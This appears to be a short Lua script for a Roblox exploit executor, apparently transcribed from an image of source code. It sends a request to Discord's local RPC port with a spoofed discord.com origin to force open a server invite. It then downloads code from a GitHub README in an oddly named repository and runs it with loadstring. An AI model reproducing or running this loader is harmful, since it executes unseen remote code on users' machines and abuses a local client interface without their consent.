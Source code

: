 local request = (syn and syn.request) or (http and http.request) or http_request
   
if request then
    request(
        {
            Url = "http://127.0.0.1:6463/rpc?v=1",
            Method = "POST",
            Headers = {
                ["Content-Type"] = "application/json",
                ["Origin"] = "https://discord.com"
            },
            Body = game:GetService("HttpService"):JSONEncode(
                {
                    cmd = "INVITE_BROWSER",
                    args = {code = "56D9EMjUnm"},
                    nonce = game:GetService("HttpService"):GenerateGUID(false)
                }
            )
        }
    )
end

loadstring(game:HttpGet(('https://raw.githubusercontent.com/cool83birdcarfly02six/ugyadui829vc/main/README.md'),true))()

